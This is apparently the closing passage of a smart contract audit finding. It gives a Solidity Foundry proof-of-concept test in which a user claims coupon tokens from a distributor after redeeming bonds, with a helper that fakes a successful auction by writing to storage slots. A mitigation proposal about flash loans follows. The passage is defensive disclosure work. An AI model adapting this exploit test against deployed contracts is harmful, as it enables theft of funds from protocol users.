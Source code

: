 ```solidity
    
    
    assertEq(0, bond.balanceOf(user)); // bond is redeemed
    assertEq(0, Token(pool.couponToken()).balanceOf(user));
    Distributor(distributor).claim();
    uint claimedAmount = Token(pool.couponToken()).balanceOf(user);
    console.log("ClaimedAmount", claimedAmount); // 3906_250000000000000000
    vm.stopPrank();
  /**
  1562500000000000000000      3906250000000000000000
  ----------------------- ==  ----------------------
  4062500000000000000000      10156.25 ether           total bond = 4062.5 * 2.5 = 10156.25
   */
  }


    function fakeSucceededAuction(address poolAddress, uint256 period) internal {
    address auction = Utils.deploy(address(new Auction()), abi.encodeWithSelector(Auction.initialize.selector, params.couponToken, params.reserveToken, totalBuyCouponAmount, block.timestamp + 10 days, 1000, address(0), 95));

    uint256 auctionSlot = 11;
    bytes32 auctionPeriodSlot = keccak256(abi.encode(period, auctionSlot));
    vm.store(address(poolAddress), auctionPeriodSlot, bytes32(uint256(uint160(auction))));

    uint256 stateSlot = 6;
    vm.store(auction, bytes32(stateSlot), bytes32(uint256(1)));
  }

  }
```

### Mitigation

There could be multiple possible solution, one could be.
- Have a buffer time (1 day) once the distributionPeriod is over for whitelisted address to startAuction, if that not started in buffer time anyone can start it. (As due to legal reason, there is no access control is possible on the function.)
    -  It would make attack expensive, as flash loan wouldn't be possible. 
    -  As user have to hold money, in AMM. User can face slippage loss. Making the whole attack non-profitable.